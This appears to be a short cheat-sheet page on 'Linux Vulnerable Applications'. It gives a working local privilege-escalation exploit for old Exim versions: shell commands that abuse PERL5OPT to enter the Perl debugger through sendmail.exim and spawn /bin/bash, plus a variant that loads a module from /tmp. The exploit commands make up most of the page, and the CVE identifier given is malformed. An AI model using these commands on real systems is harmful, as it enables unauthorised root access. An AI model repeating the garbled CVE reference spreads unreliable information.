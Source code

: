 # Linux Vulnerable Applications

<div class="row row-cols-lg-2"><div>

#### Exim Mail Client | CVE-2016-153

Versions prior to 4.84-3 are vulnerable to LPE.

```shell!
$ PERL5OPT="-d/dev/null" /usr/sbin/sendmail.exim -ps victim@localhost
shell> p system("/bin/bash");
```

You can alternatively use a configuration stored in `/tmp/victim.pm` with `PERL5LIB=/tmp PERL5OPT=-Mvictim` before calling the program.
</div><div>
</div></div>